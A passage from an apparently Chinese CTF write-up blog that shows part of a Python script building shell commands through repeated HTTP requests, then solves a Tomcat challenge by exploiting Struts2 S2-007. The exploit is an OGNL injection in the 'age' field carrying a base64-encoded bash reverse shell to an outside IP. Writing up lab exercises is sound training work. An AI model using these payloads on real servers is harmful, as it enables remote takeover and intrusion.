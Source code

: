 ```prism
    ">cu\\"
]
for i in list:
    url = baseurl+str(i)
    s.get(url)
for j in list2:
    url = baseurl+str(j)
    s.get(url)
s.get(baseurl+"sh _")
s.get(baseurl+"sh y")



```

![](https://csdnimg.cn/release/blogv2/dist/pc/img/newCodeMoreBlack.png)

## Tomcat?cat~



![image-20240808163119493](https://img-blog.csdnimg.cn/img_convert/489f2eb96470a95170e683ae136f816c.png)

估计是java题，开题



![image-20240808163725093](https://img-blog.csdnimg.cn/img_convert/18f8b06996a1ee8b3e85064a447b713f.png)

源码发现是struts2的漏洞



![image-20240808163735927](https://img-blog.csdnimg.cn/img_convert/1a583f8b74c2ac692691739f14c0f378.png)

结合登录框特征，应该是S2-007，在age处注入Payload

```has-numbering
/user.action
POST:
name=&email=&age=%27+%2B+%28%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23foo%3Dnew+java.lang.Boolean%28%22false%22%29+%2C%23context%5B%22xwork.MethodAccessor.denyMethodExecution%22%5D%3D%23foo%2C%40org.apache.commons.io.IOUtils%40toString%28%40java.lang.Runtime%40getRuntime%28%29.exec%28%27bash%20-c%20%7Becho%2CYmFzaCAtaSA%2BJiAvZGV2L3RjcC8xMjQuNzEuMTQ3Ljk5LzE3MTcgMD4mMQ%3D%3D%7D%7C%7Bbase64%2C-d%7D%7C%7Bbash%2C-i%7D%27%29.getInputStream%28%29%29%29+%2B+%27

```



![image-20240808170218583](https://img-blog.csdnimg.cn/img_convert/94c020f7468f881547de71648ee80d92.png)

flag在/usr/local/tomcat/webapps/flaaaaaaag/flag.jsp



![image-20240808183610511](https://img-blog.csdnimg.cn/img_convert/29c2a0be459d4c2f70fc9d6d264df87d.png)
